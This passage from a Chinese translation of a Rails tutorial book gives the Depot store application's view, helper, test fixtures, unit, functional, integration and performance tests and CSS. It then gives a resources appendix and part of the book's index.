  <div class="entry">
    "/>
    <h3><%= h(product.title) %></h3>
    <%= product.description %>
    <div class="price-line">
      <span class="price"><%= number_to_currency(product.price) %></span>
      <% form_remote_tag :url => { :action => :add_to_cart, :id => product } do %>
        <%= submit_tag "添加到购物车" %>
      <% end %>
    </div>
  </div>
<% end %>
```

##### 辅助模块

下载 depot_r/app/helpers/store_helper.rb

```
module StoreHelper

  def hidden_div_if(condition, attributes = {})
    if condition
      attributes["style"] = "display: none"
    end
    attrs = tag_options(attributes.stringify_keys)
    "<div #{attrs}>"
  end
end
```

##### 单元和功能测试

###### 测试数据

下载 depot_r/test/fixtures/products.yml

```
ruby_book:
  id:             1
  title:          Programming Ruby
  description:    Dummy description
  price:          1234
  image_url:      ruby.png

rails_book:
  id: 2
  title: Agile Web Development with Rails
  description: Dummy description
  price: 2345
  image_url: rails.png
```

```
<% SALT = "NaCl" unless defined?(SALT) %>

dave:
  id: 1
  name: dave
  salt: <%= SALT %>
  hashed_password: <%= User.encrypted_password('secret', SALT) %>
```

###### 单元测试

```
require File.dirname(__FILE__) + '/../test_helper'

class CartTest < Test::Unit::TestCase

  fixtures :products

  def test_add_unique_products
    cart = Cart.new
    rails_book = products(:rails_book)
    ruby_book  = products(:ruby_book)
    cart.add_product rails_book
    cart.add_product ruby_book
    assert_equal 2, cart.items.size
    assert_equal rails_book.price + ruby_book.price, cart.total_price
  end

  def test_add_duplicate_product
    cart = Cart.new
    rails_book = products(:rails_book)
    cart.add_product rails_book
    cart.add_product rails_book
    assert_equal 2*rails_book.price, cart.total_price
    assert_equal 1, cart.items.size
    assert_equal 2, cart.items[0].quantity
  end
end
```

```
require File.dirname(__FILE__) + '/../test_helper'

class ProductTest < Test::Unit::TestCase

  fixtures :products

  def test_truth
    assert true
  end

  def test_invalid_with_empty_attributes
    product = Product.new
    assert !product.valid?
    assert product.errors.invalid?(:title)
    assert product.errors.invalid?(:description)
    assert product.errors.invalid?(:price)
    assert product.errors.invalid?(:image_url)
  end

  def test_positive_price
    product = Product.new(:title       => "My Book Title",
                      :description => "yyy",
                      :image_url   => "zzz.jpg")

    product.price = -1
    assert !product.valid?
    assert_equal "should be at least 0.01", product.errors.on(:price)

    product.price = 0
    assert !product.valid?
    assert_equal "should be at least 0.01", product.errors.on(:price)

    product.price = 1
    assert product.valid?
  end

  def test_image_url
    ok = %w{ fred.gif fred.jpg fred.png FRED.JPG FRED.Jpg
                http://a.b.c/x/y/z/fred.gif }
    bad = %w{ fred.doc fred.gif/more fred.gif.more }

    ok.each do |name|
      product = Product.new(:title       => "My Book Title",
                        :description => "yyy",
                        :price       => 1,
                        :image_url   => name)
      assert product.valid?, product.errors.full_messages
    end

    bad.each do |name|
      product = Product.new(:title => "My Book Title", :description => "yyy", :price => 1,
                        :image_url => name)
      assert !product.valid?, "saving #{name}"
    end
  end

  def test_unique_title
    product = Product.new(:title       => products(:ruby_book).title,
                      :description => "yyy",
                      :price       => 1,
                      :image_url   => "fred.gif")

    assert !product.save
  end
end
```


###### 功能测试

下载 depot_r/test/functional/login_controller_test.rb

```ruby
require File.dirname(__FILE__) + '/../test_helper'
require 'login_controller'

# Re-raise errors caught by the controller.
class LoginController; def rescue_action(e) raise e end; end

class LoginControllerTest < Test::Unit::TestCase
  fixtures :users

  def setup
    @controller = LoginController.new
    @request    = ActionController::TestRequest.new
    @response   = ActionController::TestResponse.new
  end

  # Replace this with your real tests.
  def test_truth
    assert true
  end

  if false
    def test_index
      get :index
      assert_response :success
    end
  end

  def test_index_without_user
    get :index
    assert_redirected_to :action => "login"
    assert_equal "Please log in", flash[:notice]
  end

  def test_index_with_user
    get :index, {}, { :user_id => users(:dave).id }
    assert_response :success
    assert_template "index"
  end

  def test_login
    dave = users(:dave)
    post :login, :name => dave.name, :password => 'secret'
    assert_redirected_to :action => "index"
    assert_equal dave.id, session[:user_id]
  end

  def test_bad_password
    dave = users(:dave)
    post :login, :name => dave.name, :password => 'wrong'
    assert_template "login"
    assert_equal "Invalid user/password combination", flash[:notice]
  end
end
```

```ruby
require File.dirname(__FILE__) + '/../test_helper'
require 'store_controller'

# Re-raise errors caught by the controller.
class StoreController; def rescue_action(e) raise e end; end

class StoreControllerTest < Test::Unit::TestCase
  fixtures :products

  def setup
    @controller = StoreController.new
    @request    = ActionController::TestRequest.new
    @response   = ActionController::TestResponse.new
  end

  def test_post_to_add_to_cart
    get :index
    ruby_id = products(:ruby_book).id
    assert_select "form[action=/store/add_to_cart/#{ruby_id}][method=post]"
  end
end
```

##### 集成测试

```ruby
require "#{File.dirname(__FILE__)}/../test_helper"

class DslUserStoriesTest < ActionController::IntegrationTest
  fixtures :products

  DAVES_DETAILS = {
    :name      => "Dave Thomas",
    :address   => "123 The Street",
    :email     => "dave@pragprog.com",
    :pay_type  => "check"
  }

  MIKES_DETAILS = {
    :name      => "Mike Clark",
    :address   => "345 The Avenue",
    :email     => "mike@pragmaticstudio.com",
    :pay_type  => "cc"
  }

  def setup
    LineItem.delete_all
    Order.delete_all
    @ruby_book = products(:ruby_book)
    @rails_book = products(:rails_book)
  end

  # A user goes to the store index page. They select a product,
  # adding it to their cart. They then check out, filling in
  # their details on the checkout form. When they submit,
  # an order is created in the database containing
  # their information, along with a single line item
  # corresponding to the product they added to their cart.

  def test_buying_a_product
    dave = regular_user
    dave.get "/store/index"
    dave.is_viewing "index"
    dave.buys_a @ruby_book
    dave.has_a_cart_containing @ruby_book
    dave.checks_out DAVES_DETAILS
    dave.is_viewing "index"
    check_for_order DAVES_DETAILS, @ruby_book
  end

  def test_two_people_buying
    dave = regular_user
    mike = regular_user
    dave.buys_a @ruby_book
    mike.buys_a @rails_book
    dave.has_a_cart_containing @ruby_book
    dave.checks_out DAVES_DETAILS
    mike.has_a_cart_containing @rails_book
    check_for_order DAVES_DETAILS, @ruby_book
    mike.checks_out MIKES_DETAILS
    check_for_order MIKES_DETAILS, @rails_book
  end

  def regular_user
    open_session do |user|
      def user.is_viewing(page)
        assert_response :success
        assert_template page
      end

      def user.buys_a(product)
        xml_http_request "/store/add_to_cart", :id => product.id
        assert_response :success
      end

      def user.has_a_cart_containing(*products)
        cart = session[:cart]
        assert_equal products.size, cart.items.size
        for item in cart.items
          assert products.include?(item.product)
        end
      end

      def user.checks_out(details)
        post "/store/checkout"
        assert_response :success
        assert_template "checkout"

        post_via_redirect "/store/save_order",
                          :order => {
                            :name     => details[:name],
                            :address  => details[:address],
                            :email    => details[:email],
                            :pay_type => details[:pay_type]
                          }
        assert_response :success
        assert_template "index"
        assert_equal 0, session[:cart].items.size
      end
    end
  end

  def check_for_order(details, *products)
    order = Order.find_by_name(details[:name])
    assert_not_nil order

    assert_equal details[:name],     order.name
    assert_equal details[:address],  order.address
    assert_equal details[:email],    order.email
    assert_equal details[:pay_type], order.pay_type

    assert_equal products.size, order.line_items.size
    for line_item in order.line_items
      assert products.include?(line_item.product)
    end
  end
end
```

```ruby
require "#{File.dirname(__FILE__)}/../test_helper"

class UserStoriesTest < ActionController::IntegrationTest
  fixtures :products

  # A user goes to the store index page. They select a product, adding
  # it to their cart. They then check out, filling in their details on
  # the checkout form. When they submit, an order is created in the
  # database containing their information, along with a single line
  # item corresponding to the product they added to their cart.

  def test_buying_a_product
    LineItem.delete_all
    Order.delete_all
    ruby_book = products(:ruby_book)

    get "/store/index"
    assert_response :success
    assert_template "index"

    xml_http_request "/store/add_to_cart", :id => ruby_book.id
    assert_response :success

    cart = session[:cart]
    assert_equal 1, cart.items.size
    assert_equal ruby_book, cart.items[0].product

    post "/store/checkout"
    assert_response :success
    assert_template "checkout"

    post_via_redirect "/store/save_order",
                      :order => { :name     => "Dave Thomas",
                                  :address  => "123 The Street",
                                  :email    => "dave@pragprog.com",
                                  :pay_type => "check" }
    assert_response :success
    assert_template "index"
    assert_equal 0, session[:cart].items.size

    orders = Order.find(:all)
    assert_equal 1, orders.size
    order = orders[0]

    assert_equal "Dave Thomas",        order.name
    assert_equal "123 The Street",     order.address
    assert_equal "dave@pragprog.com", order.email
    assert_equal "check",              order.pay_type

    assert_equal 1, order.line_items.size
    line_item = order.line_items[0]
    assert_equal ruby_book, line_item.product
  end
end
```

##### 性能测试

```erb
<% 1.upto(1000) do |i| %>
product_<%= i %>:
  id: <%= i %>
  title: Product Number <%= i %>
  description: My description
  image_url:   product.gif
  price:       1234
<% end %>
```

```ruby
require File.dirname(__FILE__) + '/../test_helper'
require 'store_controller'

# Re-raise errors caught by the controller.
class OrderController; def rescue_action(e) raise e end; end

class OrderSpeedTest < Test::Unit::TestCase
  DAVES_DETAILS = {
    :name     => "Dave Thomas",
    :address  => "123 The Street",
    :email    => "dave@pragprog.com",
    :pay_type => "check"
  }

  self.fixture_path = File.join(File.dirname(__FILE__), "../fixtures/performance")
  fixtures :products

  def setup
    @controller = StoreController.new
    @request    = ActionController::TestRequest.new
    @response   = ActionController::TestResponse.new
  end

  def test_100_orders
    Order.delete_all
    LineItem.delete_all

    @controller.logger.silence do
      elapsed_time = Benchmark.realtime do
        100.downto(1) do |prd_id|
          cart = Cart.new
          cart.add_product(Product.find(prd_id))
          post :save_order,
               { :order => DAVES_DETAILS },
               { :cart  => cart }
          assert_redirected_to :action => :index
        end
      end
    end
  end
end
```


##### CSS 文件

下载 depot_r/public/stylesheets/depot.css

```css
/* 全局样式 */

#notice {
  border: 2px solid red;
  padding: 1em;
  margin-bottom: 2em;
  background-color: #f0f0f0;
  font: bold smaller sans-serif;
}

/* 管理员/列表样式 */

#product-list .list-title {
  color: #244;
  font-weight: bold;
  font-size: larger;
}

#product-list .list-image {
  width: 60px;
  height: 70px;
}

#product-list .list-actions {
  font-size: x-small;
  text-align: right;
  padding-left: 1em;
}

#product-list .list-line-even {
  background: #e0f8f8;
}

#product-list .list-line-odd {
  background: #f8b0f8;
}

/* 主页样式 */

#banner {
  background: #9c9;
  padding-top: 10px;
  padding-bottom: 10px;
  border-bottom: 2px solid;
  font: small-caps 40px/40px "Times New Roman", serif;
  color: #282;
  text-align: center;
}

#banner img {
  float: left;
}

#columns {
  background: #141;
}

#main {
  margin-left: 15em;
  padding-top: 4ex;
  padding-left: 2em;
  background: white;
}

#side {
  float: left;
  padding-top: 1em;
  padding-left: 1em;
  padding-bottom: 1em;
  width: 14em;
  background: #141;
}

#side a {
  color: #bfb;
  font-size: small;
}

h1 {
  font: 150% sans-serif;
  color: #226;
  border-bottom: 3px dotted #77d;
}

/* 商店目录中的一个条目 */

#store .entry {
  border-bottom: 1px dotted #77d;
}

#store .title {
  font-size: 120%;
  font-family: sans-serif;
}

#store .entry img {
  width: 75px;
  float: left;
}

#store .entry h3 {
  margin-bottom: 2px;
  color: #227;
}

#store .entry p {
  margin-top: 0px;
  margin-bottom: 0.8em;
}

#store .entry .price-line {
}

#store .entry .add-to-cart {
  position: relative;
}

#store .entry .price {
  color: #44a;
  font-weight: bold;
  margin-right: 2em;
}

#store .entry form, #store .entry form div {
  display: inline;
}

/* 主页和侧边栏中购物车的样式 */

.cart-title {
  font: 120% bold;
}

.item-price, .total-line {
  text-align: right;
}

.total-line .total-cell {
  font-weight: bold;
  border-top: 1px solid #595;
}

/* 侧边栏中购物车的样式 */

#cart, #cart table {
  font-size: smaller;
  color: white;
}

#cart table {
  border-top: 1px dotted #595;
  border-bottom: 1px dotted #595;
  margin-bottom: 10px;
}

/* 订单表单样式 */

.depot-form fieldset {
  background: #efe;
}

.depot-form legend {
  color: #dfd;
  background: #141;
  font-family: sans-serif;
  padding: 0.2em 1em;
}

.depot-form label {
  width: 5em;
  float: left;
  text-align: right;
  margin-right: 0.5em;
  display: block;
}

.depot-form .submit {
  margin-left: 5.5em;
}

/* 错误框 */

.fieldWithErrors {
  padding: 2px;
  background-color: red;
  display: table;
}

#errorExplanation {
  width: 400px;
  border: 2px solid red;
  padding: 7px;
  padding-bottom: 12px;
  margin-bottom: 20px;
  background-color: #f0f0f0;
}

#errorExplanation h2 {
  text-align: left;
  font-weight: bold;
  padding: 5px 5px 5px 15px;
  font-size: 12px;
  margin: -7px;
  background-color: #c00;
  color: #fff;
}

#errorExplanation p {
  color: #333;
  margin-bottom: 0;
  padding: 5px;
}

#errorExplanation ul li {
  font-size: 12px;
  list-style: square;
}
```

## 附录 D

## 资源

### D.1 在线资源

**Ruby on Rails**...http://www.rubyonrails.com/
官方 Rails 主页，包含指向用户评价、文档、社区页面、下载资源等的链接。一些最适合初学者的资源包括展示人们编码 Rails 应用程序的视频。

**Ruby on Rails (for developers)**...http://dev.rubyonrails.com/
面向严肃的 Rails 开发者的页面。在此你可以找到指向最新 Rails 源代码的指引。你还会找到 Rails Trac 系统，^1 其中包含（除其他外）当前错误列表、功能请求和实验性更改。

### D.2 参考文献

- [Fow03] Martin Fowler. *Patterns of Enterprise Application Architecture*. Addison Wesley Longman, Reading, MA, 2003.
- [Fow06] Chad Fowler. *Rails Recipes*. The Pragmatic Programmers, LLC, Raleigh, NC, and Dallas, TX, 2006.
- [HT00] Andrew Hunt and David Thomas. *The Pragmatic Programmer: From Journeyman to Master*. Addison-Wesley, Reading, MA, 2000.
- [JG06] Dion Almaer, Justin Gehtland, Ben Galbraith. *Pragmatic Ajax: A Web 2.0 Primer*. The Pragmatic Programmers, LLC, Raleigh, NC, and Dallas, TX, 2006.
- [TFH05] David Thomas, Chad Fowler, and Andrew Hunt. *Programming Ruby: The Pragmatic Programmers' Guide*. The Pragmatic Programmers, LLC, Raleigh, NC, and Dallas, TX, second edition, 2005.

1. http://www.edgewall.com/trac/. Trac 是一个集成的源代码管理系统和项目管理系统。

## 索引

### 符号

- ! (名为 xxx! 的方法), 643
- &:xxx 表示法, 255
- /.../ (正则表达式), 640
- :name 表示法, 633
- => (在哈希中), 638
- => (在参数列表中), 639
- @name (实例变量), 636
- [ a, b, c ] (数组字面量), 638
- || 方法, 564
- || (Ruby OR 运算符), 643
- ||= (条件赋值), 643
- <%...%>, 51, 469
  - 使用 -%> 抑制空行, 470
- <%=...%>, 50, 469
- << 方法, 333, 342, 565, 638
- { a => b } (哈希字面量), 638
- { code } (代码块), 640
- 301 和 307 重定向状态, 433

### A

- about (脚本), 233
- abstract_class 方法, 348
- Accept 头，参见 HTTP, Accept 头
- 访问器方法, 288, 636
- ACID，参见事务
- 动作, 24
  - 自动渲染, 428
  - 缓存, 456
  - 意外暴露, 605
  - flash 数据, 446
  - 使用 private 隐藏, 107
  - index, 95
  - 方法, 425
  - REST 动作, 411
  - 模板, 428
  - 在 URL 中, 25, 47, 394
  - 运行前验证条件, 455
- :action 参数, 430
- 动作缓存, 456
- Action Controller, 30, 393–465
  - - logger (配置), 650
  - - logger 属性, 427, 467
  - - method_missing, 425, 430
  - - 模型, 438
  - - 命名约定, 242
  - - 观察者, 381
  - - page_cache_directory (配置), 463, 650
  - - page_cache_extension (配置), 463, 650
  - - paginate, 479, 481
  - - param_parsers (配置), 650
  - - params 属性, 108, 301, 426, 467, 481
  - - perform_caching (配置), 458, 650
  - - 私有方法, 107
  - - process, 394
  - - read_fragment, 517
  - - redirect_to, 115, 428, 434, 435
  - - redirect_to_index, 127
  - - render, 124, 181, 428, 429, 466, 508, 511, 519, 572
  - - render_to_string, 432
  - - request 属性, 161, 426, 467
  - - 请求处理, 393
  - - respond_to, 179, 415, 422
  - - response 属性, 427, 467
  - - REST 动作, 411
  - - 使用请求类型保存, 160
  - - send_data, 231, 432
  - - send_file, 433
  - - session 属性, 105, 427, 438, 467
  - - session_store (配置), 650
  - - (使) 会话有条件, 443
  - - 子模块, 243
  - - template_class (配置), 650
  - - template_root (配置), 429, 466, 650
  - - 测试, 186, 198
  - - url_for, 401, 405, 406
  - - verify, 454
  - - view_controller_internals (配置), 650
  - - web_service, 592
  - - 另请参见控制器
- - 电子邮件
  - 接收, 579
  - 发送, 568
- email.encoded, 574
- 发件人地址, 571
- 功能测试, 582
- 生成邮件发送器, 570
- 头信息, 571
- HTML 格式电子邮件, 574
- implicit_parts_order (配置), 651
- 链接到, 478
- logger (配置), 651
- 多部分消息, 575
- 隐藏地址, 478
- 部分, 578
- perform_deliveries (配置), 570, 651
- Postfix, 579
- .procmailrc 文件, 580
- raise_delivery_errors (配置), 570, 652
- read_fixture, 581
- receive, 579, 580
- 接收电子邮件, 579-580
- 收件人, 572
- 发送错误通知, 628
- 发送电子邮件, 568-575
- sendmail, 569, 579
- server_settings (配置), 569, 652
- SMTP 递送, 569
- 主题, 572
- template_root (配置), 652
- 测试, 568, 580-583
- TMail 类, 573, 579
- 单元测试, 581

#### Action Mailer, 568-583

#### Action Pack，参见 Action Controller; Action View

#### Action View, 29, 466-521

- - 自动加载, 243
- base_path 属性, 467
- button_to, 118, 464, 477
- 缓存, 516, 517
- controller 属性, 467
- error_message_on, 494
- 辅助方法，参见辅助方法
- html_escape, 608
- 布局，参见布局
- link_to, 464, 476
- link_to_if, 477
- link_to_unless, 477
- link_to_unless_current, 477
- 命名约定, 242
- url_for, 405
- 另请参见 Action Controller; 视图

#### Action Web Service，参见 Web Service
action_name 属性, 426


#### Active Record（活动记录）

-   Active Record（活动记录），25-29, 284-285
-   `<<`，333, 342
-   `abstract_class`，348
-   访问器方法（accessor method），288
-   `acts_as_list`，355
-   `acts_as_tree`，357
-   `add_to_base`，365
-   `after_create`，374
-   `after_destroy`，171, 374
-   `after_find`，374, 376, 379
-   `after_initialize`，374, 376
-   `after_save`，374
-   `after_update`，374
-   `after_validation`，374
-   `after_validation_on_create`，374
-   `after_validation_on_update`，374
-   聚合对象（aggregate objects），316
-   `allow_concurrency`（配置项），647
-   `attr_accessible`，604
-   `attr_protected`，603
-   `attribute_names`，306
-   `attribute_present`，306
-   `attributes`（属性），288, 381-384
    -   与列（columns）的关系，285
    -   类型映射（type mapping），287
-   `attributes`，306
-   `average`，307
-   `before_create`，374
-   `before_destroy`，374
-   `before_save`，374
-   `before_update`，374
-   `before_validation`，374
-   `before_validation_on_create`，374
-   `before_validation_on_update`，374
-   `_before_type_cast`，288
-   `belongs_to`（属于），143, 327-329, 356
    -   与布尔列（boolean columns）的关系，288
-   `calculate`，307
-   回调（callback），314, 374-381
    -   对象（objects），377
-   子对象（child objects），333
-   `colorize_logging`（配置项），647
-   列（columns），381
-   `columns_hash`，381
-   `composed_of`（由...组成），317
-   连接到数据库（connecting to database），291
-   构造函数（constructor），297, 481
-   `count`，307
-   `count_by_sql`，309
-   `create`（创建），297, 313, 603
    -   从表单参数创建（create from form parameters），298
    -   创建行（create rows），296
-   `create!`，313, 342
-   自定义 SQL（custom SQL），322

-   `default_error_messages`（配置项），648
-   `default_timezone`（配置项），376, 647
-   `delete`（删除），314, 605
-   `delete_all`，314
-   `destroy`（销毁），314, 334, 389, 605
-   `destroy_all`，314
-   动态查找器（dynamic finder），158, 310
-   `errors` 属性（errors attribute），494
-   `errors.add`，365
-   `errors.clear`，365
-   `errors.on`，365, 494
-   `establish_connection`，291, 296
-   `find`（查找），96, 298, 601, 604
    -   查找指定行（find specified rows），299
-   `find_all_by_`，310
-   `find_by_`，310
-   `find_by_sql`，305-307, 322, 382
-   `find_or_create_by_`，311
-   `find_or_initialize_by_`，311
-   `first`，357
-   外键（foreign key），324
-   `generate_read_methods`（配置项），647
-   `has_and_belongs_to_many`（多对多），328, 338, 361
-   `has_many`（一对多），142, 328, 336, 341, 361
-   `has_one`（一对一），327, 331, 350
-   `higher_item`，357
-   `id`，289
-   `ignore_tables`（配置项），649
-   实例（instance），381
-   `last`，357
-   生命周期（life cycle），374
-   `lock_optimistically`（配置项），392, 647
-   锁定（locking），390
-   `logger`（配置项），647
-   `lower_item`，357
-   魔法列名（magic column names），322
-   `maximum`，307
-   `minimum`，307
-   `move_higher`，357
-   `move_lower`，357
-   `move_to_bottom`，357
-   `move_to_top`，357
-   命名约定（naming conventions），241, 285
-   `new_record`，364
-   `observe`，381
-   观察者（observer），380-381
-   作为 ORM 层（as ORM layer），28
-   每类连接（per-class connection），295
-   SQL 中的占位符（placeholder in SQL），300
-   `pluralize_table_names`（配置项），647
-   主键（primary key），289, 290
-   `primary_key=`，290
-   `primary_key_prefix_type`（配置项），648
-   `push`，342
-   `push_with_attributes`，339
-   原始 SQL（raw SQL），321
-   `read_attribute`，288, 384
-   `record_timestamps`（配置项），376, 648
-   `reload`，311
-   `save`（保存），296, 311, 313, 360, 389
-   `save!`，313, 360, 386
-   `schema_format`（配置项），648
-   `select_all`，321
-   `select_one`，322
-   `serialize`，315
-   会话存储（session storage in），442
-   `set_primary_key`，290
-   `set_table_name`，285
-   存储 Ruby 对象（storing Ruby objects），315
-   `sum`，120, 307
-   `table_name_prefix`（配置项），648
-   `table_name_suffix`（配置项），648
-   `to_xml`，181, 248
-   事务（transaction），385
-   `update`（更新），312
    -   更新行（update rows），311
-   `update_all`，312
-   `update_attribute`，312
-   `update_attributes`，312
-   验证（validation），参见 Validation
-   被解释为假的值（values interpreted as false），289
-   `verbose`（配置项），649
-   虚拟属性（virtual attribute），157, 384
-   `write_attribute`，288
-   另请参见 Model

##### Active Support（活动支持）

-   Active Support（活动支持），248-262
-   `ago`，253
-   数组扩展（array extensions），250
-   `at`，250
-   `at_beginning_of_day`，253
-   `at_beginning_of_month`，253
-   `at_beginning_of_week`，253
-   `at_beginning_of_year`，253
-   `at_midnight`，253
-   `blank`，249, 365
-   `bytes`，253
-   `change`，253
-   `chars`，258
-   日期和时间（date and time），253
-   `days`，253
-   `each_char`，250
-   `ends_with`，250
-   枚举扩展（enumerable extensions），249
-   `even`，252
-   `exabyte`，253
-   `first`，250
-   `fortnights`，253
-   `from`，250
-   `from_now`，253
-   `gigabytes`，253
-   `group_by`，249
-   `hours`，253
-   `humanize`，251
-   `in_groups_of`，250
-   `index_by`，250
-   `kilobytes`，253
-   `last`，250
-   `last_month`，253
-   `last_year`，253
-   `megabytes`，253
-   `midnight`，253
-   `minutes`，253
-   `monday`，253
-   `months`，253
-   `months_ago`，253
-   `months_since`，253
-   `next_week`，253
-   `next_year`，253
-   数值扩展（numeric extensions），252
-   `odd`，252
-   `ordinalize`，252
-   `petabyte`，253
-   `pluralize`，251
-   `seconds_since_midnight`，253
-   `since`，253
-   `singularize`，251
-   `starts_with`，250
-   字符串扩展（string extensions），250, 251
-   `sum`，250
-   `terabytes`，253
-   时间扩展（time extensions），253
-   `titleize`，251
-   `to`，250
-   `to_json`，248
-   `to_proc`，255
-   `to_s`，254
-   `to_sentence`，250
-   `to_time`，254
-   `to_xml`，248
-   `to_yaml`，248
-   `tomorrow`，253
-   Unicode 支持（Unicode support），257
-   `until`，253
-   `weeks`，253
-   `with_options`，256
-   `years`，253
-   `years_ago`，253
-   `years_since`，253
-   `yesterday`，253

-   ActiveMerchant 库（信用卡处理），142

-   ActiveRecord::IrreversibleMigration 异常，270
-   Acts as...（表现得像...），355
-   `acts_as_list` 方法，355
    -   `:scope` 参数，356
-   `acts_as_tree` 方法，357
    -   `:order` 参数，358
-   适配器（Adapter），参见 数据库，适配器
-   `add_column` 方法，266
-   `add_index` 方法，273
-   `add_to_base` 方法，365
-   ADO 模块，41
-   前置过滤器（After filter），448
    -   修改响应（modify response），450
-   `after_create` 方法，374
-   `after_destroy` 方法，171, 374
-   `after_filter` 方法，449
    -   `:except` 参数，450
    -   `:only` 参数，450
-   `after_find` 方法，374, 376, 379
-   `after_initialize` 方法，374, 376
-   `after_invocation` 方法，594
    -   `:except` 参数，595
    -   `:only` 参数，595
-   `after_save` 方法，374
-   `after_update` 方法，374
-   `after_validation` 方法，374
-   `after_validation_on_create` 方法，374
-   `after_validation_on_update` 方法，374
-   聚合（Aggregation），314-321
    -   属性（attributes），316
    -   构造函数要求（constructor requirements），316
    -   另请参见 Active Record，`composed_of`
-   敏捷与敏捷宣言（Agility and the Agile Manifesto），16-17
-   `ago` 方法，253
-   AJAX，122-139, 522
    -   `auto_complete_field`，546
    -   自动完成（autocompletion），544
    -   回调（callbacks），531
    -   降级（degrading），539
    -   拖放（drag and drop），549
    -   就地编辑（in-place editing），555
    -   `innerHTML`，534
    -   JavaScript 过滤器（JavaScript filters），530
    -   `link_to_remote`，533
    -   `observe_field`，525
    -   `periodically_call_remote`，535
    -   readystate 3，532
    -   在禁用 JavaScript 时运行应用程序（running applications if JavaScript disabled），137
    -   Script.aculo.us，543
    -   搜索示例（search example），523
    -   旋转指示器（spinner），526
    -   切换效果（toggle effects），559
    -   故障排除（troubleshooting），130
    -   视觉效果（visual effects），558
    -   等待光标（wait cursor），526
    -   XmlHttpRequest，137
    -   另请参见 DOM 操作；RJS
-   `alert` 方法，565
-   `:all` 参数，96, 301
-   `allow_concurrency`（配置项），647
-   `:anchor` 参数，405
-   Apache，238
    -   分析（analysis），618
    -   配置（configuration），625
    -   `mod_proxy_balancer`，619
    -   版本（version），621
    -   另请参见 部署
-   API 文档，19
-   `api_method` 方法，587
    -   `:expects` 参数，588
    -   `:returns` 参数，588
-   `app/` 目录，230
-   应用程序（Application）
    -   文档（documentation），182
    -   从命令行运行（run from command line），234
    -   统计（statistics），182
-   应用程序服务器（Application server），参见 部署
-   `application.rb`，166, 379, 439
-   `ApplicationController` 类，46
-   `apt-get`，621
-   Arachno Ruby，38
-   架构（Architecture），参见 MVC
-   Arkin, Assof，207
-   环绕过滤器（Around filter），451
-   数组（Array (Ruby)），638
    -   `<<`，638
-   数组扩展（Array extension）
    -   `in_groups_of`，250
    -   `to_sentence`，250
-   `:as` 参数，351
-   `assert` 方法，187, 189
-   `assert_generates` 方法，423
-   `assert_recognizes` 方法，423
-   `assert_redirected_to` 方法，201
-   `assert_response` 方法，200, 201
    -   `:error` 参数，205
    -   `:missing` 参数，205
    -   `:redirect` 参数，205
    -   `:success` 参数，205
-   `assert_routing` 方法，424
-   `assert_select` 方法，207
-   `assert_select_email` 方法，213
-   `assert_select_encoded` 方法，213
-   `assert_select_rjs` 方法，213
-   断言（Assertion），参见 测试
-   `asset_host`（配置项），479, 649
-   资源（Assets），参见 Javascript；样式表
-   `assigns` 属性，205
-   关联（Association）
    -   表现为列表（acts as list），355
    -   表现为树（acts as tree），357
    -   表之间的关系（between tables），324
    -   缓存子行（caching child rows），361
    -   统计子行数（count child rows），362
    -   扩展（extending），343
    -   多对多（many-to-many），326, 328, 338, 340
    -   另请参见 `has_many :through`
    -   一对多（one-to-many），327
    -   一对一（one-to-one），327
    -   多态（polymorphic），349
    -   自引用（self-referential），354
    -   单表继承（single-table inheritance），344
    -   保存时机（when things get saved），360
-   异步 JavaScript 和 XML（Asynchronous JavaScript and XML），参见 AJAX
-   `at` 方法，250
-   `at_beginning_of_day` 方法，253
-   `at_beginning_of_month` 方法，253
-   `at_beginning_of_week` 方法，253
-   `at_beginning_of_year` 方法，253
-   `at_midnight` 方法，253
-   Atom（自动发现），479
-   附件（Attachment），电子邮件，577
-   `attr_accessible` 方法，600
-   `attr_protected` 方法，603
-   `attribute_names` 方法，306
-   `attribute_present` 方法，306

##### 属性（Attributes）

-   `action_name`（Action Controller），426
-   `assigns`（Test），205
-   `base_path`（Action View），467
-   `controller`（Action View），467
-   `cookies`（Action Controller），426, 436
-   `cookies`（Test），206
-   `domain`（Request），426
-   `env`（Request），426
-   `errors`（Active Record），494
-   `flash`（Action Controller），467
-   `flash`（Test），201, 206
-   `headers`（Action Controller），426, 433, 436, 467
-   列表（listing），306
-   `logger`（Action Controller），427, 467
-   `method`（Request），427
-   在模型中（in model），285
-   `new_session`（Sessions），441
-   `params`（Action Controller），108, 301, 426, 467, 481
-   在控制器和视图之间传递（passed between controller and view），481
-   `redirect_to_url`（Test），206
-   `remote_ip`（Request），426
-   `request`（Action Controller），161, 426, 467
-   `response`（Action Controller），427, 467
-   `session`（Action Controller），105, 427, 438, 467
-   `session`（Test），206
-   `session_domain`（Sessions），441
-   `session_expires`（Sessions），441
-   `session_id`（Sessions），441
-   `session_key`（Sessions），441
-   `session_path`（Sessions），441
-   `session_secure`（Sessions），441
-   虚拟（virtual），157
-   另请参见 Action Controller；Active Record，属性

-   `attributes` 方法，306
-   认证（Authentication），448
-   授权用户（Authorize users），166
-   自动发现（Auto discovery）（Atom，RSS），479
-   `auto_complete_field` 方法，546
-   `auto_discovery_link_tag` 方法，479
-   自动完成（Autocompletion），544
-   文件的自动加载（Autoloading of files），243
-   `average` 方法，307

**B**

-   `:back` 参数，436
-   Barron, Scott，19, 444
-   `base_path` 属性，467
-   `:bcc` 参数，478
-   密送头（bcc header）（电子邮件），571
-   前置过滤器（Before filter），448
-   `before_create` 方法，374
-   `before_destroy` 方法，374
-   `before_filter` 方法，166, 449
    -   `:only` 参数，450
-   `before_invocation` 方法，594
    -   `:except` 参数，595
    -   `:only` 参数，595
-   `before_save` 方法，374
-   `_before_type_cast`，288
-   `before_update` 方法，374
-   `before_validation` 方法，374
-   `before_validation_on_create` 方法，374
-   `before_validation_on_update` 方法，374
-   `begin` 语句，641
-   `belongs_to` 方法，143, 327-329, 356
    -   `:conditions` 参数，329
    -   `:counter_cache` 参数，362
    -   `:foreign_key` 参数，329
-   基准测试（Benchmark），参见 Performance
-   `Benchmark.realtime` 方法，224
-   `benchmarker`（脚本），234
-   Benjamin, Dan，35


### C

- cache 方法, 516, 517
- cache_classes (配置), 645
- cache_sweeper 方法, 462
- cache_template_extensions (配置), 650
- cache_template_loading (配置), 650
- caches_action 方法, 458
- caches_page 方法, 457
- 缓存, 456-463
  - action 缓存, 456
  - 子记录计数, 359, 362
  - 子记录, 361
  - 过期, 459, 517
  - 文件名, 463
  - 片段缓存, 514-519
  - 片段命名, 518
  - 会话中的对象, 107
  - 仅在生产环境, 458, 516
  - 页面缓存, 456
  - 安全问题, 612
  - 发送的数据, 503
  - 存储选项, 460, 519
    - 存储片段
      - 在 DRb 服务器中, 519
      - 在文件中, 519
